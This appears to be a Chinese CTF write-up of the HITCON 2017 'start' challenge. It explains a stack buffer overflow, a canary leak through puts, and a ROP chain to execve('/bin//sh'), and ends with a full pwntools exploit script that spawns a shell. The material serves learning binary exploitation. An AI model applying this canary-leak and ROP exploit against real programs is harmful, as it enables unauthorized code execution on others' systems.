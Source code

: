 ```yaml
---
title: syscall to rop
authorId: hac425
tags:
  - rop
  - syscall
categories:
  - ctf
date: 2017-12-16 14:22:00
---
```

### 前言 

`hitcon 2017` 的 `start` 题，比较简单，练练手。

题目链接：

https://gitee.com/hac425/blog_data/tree/master/hitcon2017



### 正文

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513405464132pvttkl9d.png?imageslim)

往 `rbp-0x20` 读入 `0xd9` 的数据，溢出。
程序开了 `cancary` ，又后面直接 `puts` 把我们输入的打印出来

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513405574819gtyg37m3.png?imageslim)

我们可以直接溢出到 `cancary`, 然后用 `puts` 泄露 `cancary`， 这里有个小 `tips` , `cancary` 的最低位 为 `\x00`, 我们需要多多溢出一个 字节，覆盖掉这个 `\x00`, 这样才能 泄露 `cancary`。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/15134057198437r3x6q4n.png?imageslim)
拿到 `cancary` 后就是正常的 `rop` 了，直接使用 

```
ROPgadget --binary ./start --ropchain
```
生成 `rop` 链，不过此时的 `rop` 链太长，我们需要改一改。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513405845676igvlyleg.png?imageslim)

后面用来大量的  `add` 来设置 `rax` 设置后面的 `syscall` 的系统调用号。最后调用 `execve(“/bin//sh”, 0, 0)`, 把这一大串直接用前面找到的 `gadgets` 替换掉即可。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/15134060054129ceaklcy.png?imageslim)
长度刚好。



### 总结

`rop` 没必要一个一个手撸， 改改生成的就行，然后就是 `send` 之间一定要 `sleep` ,要不然玄学......



完整exp

```
#!/usr/bin/env python
# encoding: utf-8

from pwn import *
context.log_level = "debug"

from struct import pack
import time

# Padding goes here
p = ''

p += pack('<Q', 0x00000000004017f7) # pop rsi ; ret
p += pack('<Q', 0x00000000006cc080) # @ .data
p += pack('<Q', 0x000000000047a6e6) # pop rax ; pop rdx ; pop rbx ; ret
p += '/bin//sh'
p += pack('<Q', 0x4141414141414141) # padding
p += pack('<Q', 0x4141414141414141) # padding
p += pack('<Q', 0x0000000000475fc1) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x00000000004017f7) # pop rsi ; ret
p += pack('<Q', 0x00000000006cc088) # @ .data + 8
p += pack('<Q', 0x000000000042732f) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000475fc1) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x00000000004005d5) # pop rdi ; ret
p += pack('<Q', 0x00000000006cc080) # @ .data
p += pack('<Q', 0x00000000004017f7) # pop rsi ; ret
p += pack('<Q', 0x00000000006cc088) # @ .data + 8
p += pack('<Q', 0x0000000000443776) # pop rdx ; ret
p += pack('<Q', 0x00000000006cc088) # @ .data + 8

p += p64(0x000000000047a6e6)
p += p64(59)
p += p64(0)
p += p64(0)
p += p64(0x0000000000468e75)


print(hex(len(p)))

print hex(len(p))
rop = p

r  = process("./start")
# gdb.attach(r, '''
# # bp *0x0400B5C
# bp *0x0400B96
# c

# 	''')

pause()

# it could send "b" *0x18 + "\n"
r.sendline("b" * ( 0x20 - 0x8 ))

time.sleep(0.2)
r.recvuntil("b" * ( 0x20 - 0x8 ))
r.recv(1)
cancary = u64("\x00" + r.recv(7))

log.info("get cancary: " + hex(cancary))
pause()

payload = "exit\n\x00"
payload += "b" * ( 0x20 - 0x8 - len(payload))  # padding for cancary
payload += p64(cancary)
payload += "A" * 8  # padding for ret 
payload += rop    # rip


print hex(len(payload))

r.sendline(payload)
time.sleep(0.2)

r.interactive()

```